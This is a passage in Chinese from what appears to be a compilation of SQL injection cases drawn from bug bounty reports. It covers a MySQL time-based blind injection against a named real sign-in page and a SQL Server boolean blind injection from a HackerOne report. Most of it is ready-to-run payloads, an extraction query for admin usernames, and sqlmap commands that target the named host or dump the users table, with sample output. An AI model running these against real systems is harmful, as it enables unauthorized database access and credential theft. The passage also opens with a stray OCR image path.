      - 当 `sleep(12)` 注入时，响应时间固定延迟 **12 秒以上**（网络延迟误差范围内）。
     - `now()` 与 `sysdate()` 在 MySQL 中功能相同，条件恒为真，确保攻击稳定性。

2. **自动化利用（sqlmap）**

   - **命令示例**：

     ```
     sqlmap -u "https://futexpert.mtngbissau.com/signin/" \
     --data="phone_number=0&pin=1&submit=Continuar" \
     -p phone_number --dbms=mysql --technique=T --time-sec=12
     ```

   - **预期结果**：

     ```
     Type: time-based blind
     Title: MySQL >= 5.0.12 AND time-based blind (query SLEEP)
     Payload: phone_number=0' AND (SELECT 9274 FROM (SELECT(SLEEP(12)))zHqJ) AND 'a'='a&pin=1&submit=Continuar
     ```

### 13. SQL Server | GET | 布尔盲注

[U.S. Dept Of Defense | Report #1250293 - SQL injection my method -1 OR 3*2*1=6 AND 000159=000159 | HackerOne](https://hackerone.com/reports/1250293)

1. **布尔逻辑测试**

   - **Payload 构造**：

     ```
     sDirID=-1 OR 3*2*1=6 AND 000159=000159
     ```

   - **关键特征**：

     - 当布尔条件为真（如 `3*2=6`）时，页面返回正常业务数据（原始值 51）。
     - 当条件为假（如 `3*2=5`）时，返回空数据或异常状态码。

   - **攻击扩展**：

     ```
     sDirID=-1 OR (SELECT TOP 1 SUBSTRING(username,1,1) FROM users)='a'
     ```

     - 若管理员用户名首字母为 `a`，返回有效数据，否则异常。

2. **自动化利用（sqlmap）**

   - **命令示例**：

     ```
     sqlmap -r request.txt --batch --dbms=mssql --technique=B --dump -T users
     ```

   - **预期结果**：

     ```
     Database: ██████
     Table: users
     [1 entry]
     +----+----------+------------------+
     | id | username | password_hash    |
     +----+----------+------------------+
     | 1  | admin    | 5f4dcc3b5aa765...|
     +----+----------+------------------+
     ```
